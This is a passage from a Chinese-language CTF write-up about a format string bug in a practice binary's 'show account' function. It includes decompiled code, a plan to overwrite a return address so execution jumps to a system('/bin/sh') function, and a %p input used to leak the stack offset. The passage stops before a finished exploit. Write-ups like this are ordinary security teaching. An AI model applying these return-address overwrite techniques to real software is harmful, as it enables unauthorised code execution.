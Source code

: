 可以看出程序主要开启了NX保护以及Full RELRO保护。这我们就没有办法修改程序的got表了。

#### 分析程序

简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

```C
int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf(&formata, "Welc0me to sangebaimao!\n");
  return printf(&a4 + 4);
}
```

其输出的内容为&a4+4。我们回溯一下，发现我们读入的passwrod内容也是

```C
    v6 = read(0, (char *)&a4 + 4, 0x14uLL);
```

当然我们还可以发现我们读入的username在距离的password20个字节。

```C
  puts("Input your username(max lenth:20): ");
  fflush(stdout);
  v8 = read(0, &bufa, 0x14uLL);
  if ( v8 && v8 <= 0x14u )
  {
    puts("Input your password(max lenth:20): ");
    fflush(stdout);
    v6 = read(0, (char *)&a4 + 4, 0x14uLL);
    fflush(stdout);
    *(_QWORD *)buf = bufa;
    *(_QWORD *)(buf + 8) = a3;
    *(_QWORD *)(buf + 16) = a4;
```

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

#### 利用思路

我们最终的目的是希望可以获得系统的shell，可以发现在给定的文件中，在00000000004008A6地址处有一个直接调用system('bin/sh')的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

- 确定偏移
- 获取函数的rbp与返回地址
- 根据相对偏移获取存储返回地址的地址
- 将执行system函数调用的地址写入到存储返回地址的地址。

#### 确定偏移

首先，我们先来确定一下偏移。输入用户名aaaaaaaa，密码随便输入，断点下在输出密码的那个printf(&a4 + 4)函数处

```text
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
```